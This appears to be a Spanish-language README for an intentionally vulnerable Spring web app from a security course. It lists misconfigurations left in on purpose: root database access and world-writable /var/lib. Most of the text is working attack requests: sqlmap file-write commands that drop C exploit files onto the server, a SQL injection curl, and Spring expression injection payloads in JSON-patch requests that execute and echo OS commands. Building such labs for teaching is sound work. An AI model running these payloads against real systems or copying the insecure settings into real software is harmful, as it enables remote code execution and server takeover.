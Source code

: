 # AppVulnerable

## Errores de Configuración en el Server:

1. La aplicación utiliza el usuario de root para acceder a la base de datos.
2. Se encuentra configurado para que todos los usuarios tengan permisos para las carpetas
chmod -R a+rwX /var/lib/

## Pasos previos

Se debe tener corriendo una base de datos mysql y ejecutar los scripts que estan dentro de la carpeta script para crear la tabla y el usuario que la app usa

## Requests que explotan vulnerabilidades

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/hello.c --file-dest=/var/lib/mysql-files/hello.c

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/compile.sh --file-dest=/var/lib/mysql-files/compile.sh

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/suidhelper.c --file-dest=/var/lib/mysql-files/suidhelper.c

sqlmap.py -u http://hostname:8080/users/123?id=1 --file-write=C:/tp-seguridad/doubleput.c --file-dest=/var/lib/mysql-files/doubleput.c

- curl -X GET localhost:8080/users?id=6%20OR%201=1
	- id es un campo vulnerable a sql injection

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"[comando]\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Ejecuta comandos del lado del servidor
	- Pervio a esto se debe crear la /entity/1/ con -> curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Permite ver el output de la ejecucion del comando
